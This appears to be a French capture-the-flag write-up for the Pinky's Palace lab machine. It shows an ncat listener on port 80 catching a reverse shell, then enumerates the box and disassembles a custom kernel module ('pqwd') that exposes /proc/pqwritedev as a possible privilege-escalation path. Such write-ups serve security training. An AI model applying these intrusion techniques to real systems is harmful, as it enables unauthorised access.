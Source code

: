 Concernant les ports, on n'a pas trop de choix : une règle de parefeu ne permet que les connexions sortantes sur le port 80, ce qui m'a valu quelques échecs d'exploitation.

```console
$ sudo ncat -l -p 80 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.56.187.
Ncat: Connection from 192.168.56.187:37678.
id
uid=1338(phs) gid=1338(phs) groups=1338(phs)
```

On ne peut pas faire grand-chose avec cet utilisateur qui n'a pas de permission sur son home (`/srv/phs`).

## Bonsoir, j’ai besoin de voir Ray Finkle... Et maintenant, j’ai besoin de changer de caleçon.

Une énumération avec `LinPEAS` ou `pspy32` ne remonte rien d'anormal... On trouve juste des fichiers laissant supposer que le kernel a été compilé ou qu'un module a été mis en place.

Avec `lsmod` on trouve un module nommé `pqwd` :

```
pqwd                   16384  0
```

On retrouve le fichier à l'emplacement `/lib/modules/4.9.110/pqwd/pqwd.ko`.

Le module exporte 3 fonctions : `pqinit`, `pqexit` et `qwrite`.

La fonction `pqinit` appelle `proc_create` qui permet de créer sous `/proc` un fichier qui sert à la communication (voir [linux device driver - proc_create() example for kernel module - Stack Overflow](https://stackoverflow.com/a/18924359)).

On retrouve le fichier :

```console
phs@Pinkys-Palace:/tmp$ ls /proc/pqwritedev -al
-rw-rw--w- 1 root root 0 Apr 25 14:47 /proc/pqwritedev
```

Pour la suite je n'ai pas vraiment compris la fonction `qwrite` :

```nasm
qwrite ();
0x08000060      push    ebp        ; RELOC TARGET 32 .text @ 0x08000060 ; [02] -r-x section size 115 named .text
0x08000061      mov     ebp, esp
0x08000063      push    ebx
0x08000064      call    mcount     ; RELOC 32 mcount
0x08000069      mov     eax, dword devfunc ; 0x8000540; RELOC 32 devfunc @ 0x08000540
0x0800006e      mov     ebx, ecx
0x08000070      call    __x86_indirect_thunk_eax; RELOC 32 __x86_indirect_thunk_eax
0x08000075      mov     eax, ebx
0x08000077      pop     ebx
0x08000078      pop     ebp
0x08000079      ret
```
